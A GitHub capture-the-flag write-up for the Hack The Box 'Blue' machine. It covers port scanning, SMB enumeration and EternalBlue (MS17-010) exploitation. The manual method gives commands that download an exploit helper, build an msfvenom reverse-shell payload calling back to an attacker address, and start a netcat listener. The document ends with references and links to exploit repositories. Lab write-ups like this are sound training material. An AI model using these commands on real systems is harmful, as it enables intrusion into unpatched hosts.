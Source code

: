 # Blue 

**Links:** [1](https://www.hackthebox.com/machines/Blue)  [2](https://app.hackthebox.com/machines/Blue)

**Machine ip:** 10.10.10.40

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a8b31b09-f318-49b3-a8b6-0faa07b52c0d)



## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.40 -e tun0 > ports

sort -n -k4 ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.40 --open

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/541cf98d-1908-45af-a6ea-4bfc302fdf55)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1acc49b7-1b38-4c2f-8f43-2c7d42f91b00)


## Enumeration
```
nmap --script vuln 10.10.10.40
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/be27653c-bed5-41e6-bf76-9b531c32a044)

```
smbmap -H 10.10.10.40 -u guest -p ''

smbclient //10.10.10.40/share

smbclient //10.10.10.40/users
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/19694aa3-0564-4de5-b490-bd57dd9f1df0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/e9cef959-7fd1-4f26-8943-d5097d0ca541)


## Exploitation & Gaining Access & Privilege Escalation

### Method 1: [CVE-2017-0144](https://www.exploit-db.com/exploits/42315) - Manual Solution
```
searchsploit ms17-010

searchsploit -m 42315

mv 42315.py ms17-010.py
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0ff3583a-8c7e-46f7-a6b0-27fbd1a5692b)

Modify username as **guest** in the below python exploit code:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/74f3513b-14eb-452e-98ba-2dd5bd2117da)

Uncomment two lines, update the exploit code with the reverse shell executable location and get the script to execute it:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7eb03635-3cf3-4bef-b318-aa69bb2263f0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/521a14ec-bd35-4563-af1e-a7e350f62e53)

```
# On kali attack machine:
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py

msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.24 LPORT=4444 -o ms17-010.exe

nc -lnvp 4444

python2 ms17-010.py 10.10.10.40

# On the target machine:
whoami
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1dadd00f-e06d-4a7b-8a2d-b6a4c02286d0)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b30f7bd-8ec0-4e8b-902b-78ed57b5660b)


### Method 2: [CVE-2017-0144](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) - Metasploit Solution
+ Try with metasploit solution [1](https://ethicalhacs.com/blue-hackthebox-walkthrough/) [2](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) [3](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#metasploit) [4](https://u1sp00kies.medium.com/hack-the-box-htb-blue-walkthrough-7dac9505bc9c)


### Method 3: [CVE-2017-0143](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script) Manual Solution is the same as on [Legacy Machine's Method 2](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/38_Legacy.md#method-2-cve-2017-0143-ms17-010--eternal-blue--shadow-brokers--wannacry--notpetya-1-2-3)
+ Try **CVE-2017-0143** [1](https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script) [2](https://systemweakness.com/hacktheboxs-blue-writeup-8f1d51c70c46) [3](https://systemweakness.com/hackthebox-writeup-blue-1e07a98ae505#4f92)


# References & Alternatives
+ https://vvmlist.github.io/#blue
+ https://medium.com/@dw3113r/hack-the-box-blue-writeup-without-metasploit-1c6f7e3c586c
  + https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/blue-writeup-w-o-metasploit
+ https://ethicalhacs.com/blue-hackthebox-walkthrough/
  + https://0xdf.gitlab.io/2021/05/11/htb-blue.html
  + https://systemweakness.com/hacktheboxs-blue-writeup-8f1d51c70c46
  + https://systemweakness.com/hackthebox-writeup-blue-1e07a98ae505
  + https://www.hackingarticles.in/hack-the-box-challenge-blue-walkthrough/


## CVE Scripting
+ **CVE-2017-0144 / ms17-010 / Eternal Blue / Shadow Brokers / WannaCry / NotPetya:** https://www.exploit-db.com/exploits/42315
    + https://nvd.nist.gov/vuln/detail/CVE-2017-0144
  + https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/
+ **CVE-2017-0143 / ms17-010 / Eternal Blue / Shadow Brokers / WannaCry / NotPetya:** https://www.exploit-db.com/exploits/43970
    + https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
  + https://github.com/helviojunior/MS17-010
    + https://github.com/helviojunior/MS17-010/blob/master/send_and_execute.py
  + https://github.com/c0d3cr4f73r/MS17-010_CVE-2017-0143
  + https://github.com/worawit/MS17-010
  + https://github.com/3ndG4me/AutoBlue-MS17-010


## Tools
+ **mysmb.py:** https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
  + https://github.com/worawit/MS17-010
+ **impacket:** https://github.com/fortra/impacket


## Technical Knowledge
+ **139,445 - Pentesting SMB:** https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb
  + https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/
+ **how to exploit the Eternal Blue vulnerability without using Metasploit:** https://ethicalhackingguru.com/how-to-exploit-ms17-010-eternal-blue-without-metasploit/


## Problems Solution: The same as on [Legacy Machine's Problems Solution](https://github.com/h4md153v63n/CTFs/blob/main/01_HTB/38_Legacy.md#problems-solution)
+ https://0xdf.gitlab.io/2021/05/11/htb-blue.html#python-script
+ [no module named impacket](https://forum.hackthebox.com/t/impacket-module-not-found-but-installed/3561)
+ [package 'dsinternals' requires a different python 2.7.18 not in ' =3.4'](https://medium.com/@CustosClarus/thank-you-i-have-been-able-to-open-the-virtual-env-with-source-impacket-venv-bin-activate-d5945901ce0c)
+ https://unix.stackexchange.com/questions/654723/cant-install-python2-modules-kali-2020


## For More
+ https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010
+ https://msrc.microsoft.com/blog/2017/05/customer-guidance-for-wannacrypt-attacks/
+ https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/
+ **Shadow Brokers:** https://en.wikipedia.org/wiki/The_Shadow_Brokers
+ **WannaCry ransomware attack:** https://en.wikipedia.org/wiki/WannaCry_ransomware_attack
  + https://darknetdiaries.com/episode/73/
+ https://cwe.mitre.org/data/definitions/680.html
+ https://andyrussellcronin.wordpress.com/2012/04/13/understanding-heap-spraying/
+ https://www.sentinelone.com/blog/malicious-input-how-hackers-use-shellcode/

